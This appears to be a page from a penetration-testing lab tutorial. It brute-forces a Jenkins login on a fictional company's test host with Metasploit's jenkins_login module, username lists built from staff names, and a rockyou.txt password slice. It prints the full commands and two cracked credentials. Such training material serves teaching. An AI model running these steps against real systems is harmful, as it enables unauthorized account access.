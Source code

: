 ```yaml
---
title: Jenkins Access
weight: 22
---
```


In order to use the metasploit login module for jenkins, we need to prepare some options to configure it.

# Prepare Username list

Do you have an idea where you can get the usernames?
{{% expand "Solution" %}}

Refer to the [homepage]({{< ref "/01_targeting/01_nevervictimconsult" >}})  of nevervictimconsult and there you can see the DevOps team.
{{% /expand %}}

Let's create a username list out of those names:

{{% expand "Solution" %}}

```bash
mkdir -p /root/demotalk/jenkinsBrute/
cd /root/demotalk/username-list-generator
rm output.txt user.txt
nano user.txt
```

{{% /expand %}}

Now put the names into nano. Dont take all names to not break too much bruteforce into:
{{% expand "Solution" %}}

```bash
Jeffrey van der Linden
Kay Meyer
Robert Bartsch
Ricardo Pope
```

{{% /expand %}}

Let's use a python script to create the username list out of that file:
{{% expand "Solution" %}}

```bash
python3 userlistcreator.py
```

```bash
mv output.txt /root/demotalk/jenkinsBrute/userlist.txt
cd /root/demotalk/jenkinsBrute/
```

{{% /expand %}}

# Prepare Password list

We still need a password list. Let's use the end of rockyoulist as it contains the sophisticated passwords. It contains 14344392 leaked passwords.
Rockyou.txt is a set of compromised passwords from the social media application developer also known as RockYou. It developed widgets for the Myspace application. In December 2009, the company experienced a data breach resulting in the exposure of more than 32 million user accounts. It was mainly because of the company’s policy of storing the passwords in cleartext:
{{% expand "Solution" %}}

```bash
cd /root/demotalk/jenkinsBrute/
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
```

{{% /expand %}}

# Login Scan Module

If we want to access Jenkins as a user, we still need to find a bit more information of the login options. We need to get the login url.
There are typically two login-URLs in Jenkins-world:

* /j_acegi_security_check"
* /j_spring_security_check
* or something the Administrator configured (like PingAccess or so)

# Prepare Options

Now that we have the needed configuration options, we can use metasploit to brute force login:
{{% expand "Solution" %}}

```bash
msfconsole
```

```bash
use auxiliary/scanner/http/jenkins_login
set RHOSTS jenkins.test.nevervictimconsult.xyz
set RPORT 80
set USER_FILE /root/demotalk/jenkinsBrute/userlist.txt
set PASS_FILE /root/demotalk/jenkinsBrute/passwordlist.txt
set LOGIN_URL j_spring_security_check
set STOP_ON_SUCCESS true
```

```bash
exploit
```

{{% /expand %}}
There will be two successful attempts:

```bash
[+] 34.159.77.191:80 - Login Successful: Robert.Bartsch:!@#$%1234pacr1234!@#$%
[+] 34.159.77.191:80 - Login Successful: Jeffrey_van_d_Linden:!@#$%67890QAZwsxh
```

Now enjoy logging in to jenkins!
